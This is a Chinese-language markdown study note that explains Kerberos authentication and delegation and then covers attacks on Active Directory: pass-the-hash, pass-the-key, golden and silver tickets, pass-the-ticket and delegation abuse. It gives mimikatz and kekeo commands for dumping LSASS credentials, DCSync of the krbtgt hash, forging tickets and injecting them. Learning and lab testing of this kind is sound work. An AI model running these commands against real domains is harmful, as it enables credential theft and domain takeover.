 ```yaml
---
title: Kerberos协议
tags: windows
---
```


# Kerberos协议

## kerberos 认证过程

### 角色

+ Client：访问服务的主机
+ Server：提供服务的主机
+ KDC（Key Distribution Center）：密钥分发中心，包含 AS（Authentication Service） 和 TGS（Ticket Granting Service）

### 过程

+ AS_REQ：Client 向 KDC 发送 ASREQ，请求凭据是 Client hash 加密的时间戳
+ AS_REP：KDC 使用 Client hash 进行解密，如果结果正确就返回 krbtgt hash 加密的 TGT 票据，TGT 票据里包含 PAC，PAC 包含 Client 的sid、Client 所在的组
+ TGS_REQ：Client 向 KDC 发送 TGT 票据，请求特定服务
+ TGS_RSP：KDC 使用 krbtgt hash 进行解密，如果结果正确，就返回用服务 hash 加密的 TGS 票据
+ AP_REQ：Client 使用 TGS 票据请求服务
+ AP_REP：服务用自己的 hash 解密 TGS 票据，如果解密正确，就发送 PAC 给 KDC，询问 Client 的访问权限，域控解密 PAC，获取 Client 的 sid，以及所在的组再根据服务的 ACL，判断 Client 的权限

## 委派

主机 A 使用主机 B 的某服务，此时需要通过主机 B 的某服务请求主机 C 的 某项专属 A 的服务，B 就需要代表 A 去访问 C 的该服务。

### 非约束性委派

被配置了约束性委派的主机B，会接受任何用户的委派去请求其他服务，原理是 A 将 TGT 发送到 B 中并缓存到 LSASS，B 就可以模拟用户去访问服务。

### 约束委派

约束委派将限制指定服务器可以代表用户执行的服务，原理是收到用户的请求之后，首先代表用户获得针对服务自身的可转发的kerberos服务票据(S4U2SELF)，拿着这个票据向KDC请求访问特定服务的可转发的TGS(S4U2PROXY)，并且代表用户访问特定服务，而且只能访问该特定服务（需要域管理员的权限）。

### 基于资源的约束委派

约束委派需要域管理员权限，为了使用户资源更加独立，微软引进了基于资源的约束委派。基于资源的约束委派允许资源配置受信任的帐户委派给他们。基于资源的约束委派将委派的控制权交给拥有被访问资源的管理员。



## 认证过程引发的安全问题

### PTH/PTK

PTH，即 pass the hash。在访问主机 RDP 服务时，进行认证的过程中，唯一用到的与 Client 密码相关的是 AS_REQ 中使用的 hash，因此没有明文密码也是可以认证的。如果 hash 的 ntlm hash，加密方式为 rc4，这种就属于 pth，如果 hash 是 aes key，就算是 pass the key。

#### mimikatz操作

##### PTH

```
在目标机器中抓取密码 hash：
privilege::debug
sekurlsa::logonpasswords

在本机 pass the hash：
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:ccef208c6485269c20db2cad21734fe7
```
##### PTK
```
在目标机器中抓取 key：
privilege::debug
mimikatz "privilege::debug" "sekurlsa::ekeys"

在本机 pass the key：
mimikatz "privilege::debug" "sekurlsa::pth /user:mary /domain:hack.test /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288" 
```



### 黄金票据

AS_REP 中的 TGT 票据是使用 krbtgt 的 hash 进行加密的，如果拥有 krbtgt 的hash，就可以给自己签发任意用户的 TGT 票据，这个票据被称为黄金票据。

#### mimikatz

```
在域控内导出 kribtgt 的 hash：
privilege::Debug
lsadump::dcsync /domain:hack.test /user:krbtgt

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

生成黄金票据：
kerberos::golden /user:Administrator /domain:hack.test /sid:S-1-5-21-3763276348-88739081-2848684050 /krbtgt:d8d2ad72a119a8d418703f7a16580af6 /ticket:1.kirbi

在本机测试：
kerberos::purge // 清空已有票据
kerberos::ptt 1.kirbi	//导入票据
lsadump::dcsync /domain:test.com /user:krbtgt	// 导出 krbtgt 账号密码，作用是测试票据是否导入成功
```



### PTT

ptt，即 pass the ticket，Kerberos认证过程除了第一步AS_REQ是使用时间戳加密用户hash验证之外，其他验证都是通过票据，如果能拿到票据，就可以使用票据进行下个阶段的验证。

#### mimikatz

```
在域控中导出所有票据：
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"	

在本机导入票据：
kerberos::purge	//清除票据
mimikatz.exe "kerberos::ptt "[0;4ee98c]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi"	//将票据注入到内存
```



### 白银票据

TGS_REP 中返回的 TGS 票据是使用服务的 hash 加密的，如果已经拥有服务的 hash，就可以给任意用户签发票据，访问特定服务，这就是白银票据。伪造的白银票据并没有与 KDC 通讯，所以票据里并没有带有有效 KDC 签名的 PAC，故如果目标主机配置为验证 KDC PAC签名，则白银票据失效。

#### mimikatz

```
域管账号登录域控，抓取密码hash：
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

导入白银票据：
kerberos::golden /domain:hack.test /sid:S-1-5-21-4188752632-3746001697-3968431413 /target:dc.hack.test /rc4:6f949c52336e143ff8a2f5957416a73a /service:cifs /user:ceshi /ptt

导入命令详解：
kerberos::golden：使用minikatz中票据的功能
/domain：指定域名
/sid：域sid号
/target：主域控中的计算机全名
/rc4：在域控中抓取的hash(NTLM)
/service：需要伪造的服务（cifs只是其中的一种服务，可伪造的服务很多）
/user：需要伪造的用户名（可自定义）
/ppt：伪造了以后直接写入到内存中
```



### 非约束委派攻击

拿下配置非约束委派的服务器后，诱导域管访问，此时域管会将自己的 TGT 票据发送给该服务器并缓存到 Lsass 中，导出票据即可使用 PTT 接管域账号



### 约束委派攻击

拿下约束委派用户的账号密码后，可以向域控发送 TGT 请求，得到特定服务可转发的 TGS 票据

#### kekeo+mimikatz

```
已获取约束委派用户账号密码的前提下：

使用 kekeo 向域控发起 TGT 请求:
tgt::ask /user:test /domain:hack.test /password:Asdf1234 /ticket:test.kirbi

利用得到的 TGT 票据去 TGS 申请 ST 票据：
tgs::s4u /tgt:TGT_test@HACK.TEST_krbtgt~hack.test@hack.test.kirbi /user:Administrator@hack.test /service:cifs/DC.hack.test

mimikatz导入票据：
kerberos::ptt TGS_Administrator@hack.test@HACK.TEST_cifs~DC.hack.test@HACK.TEST.kirbi
```







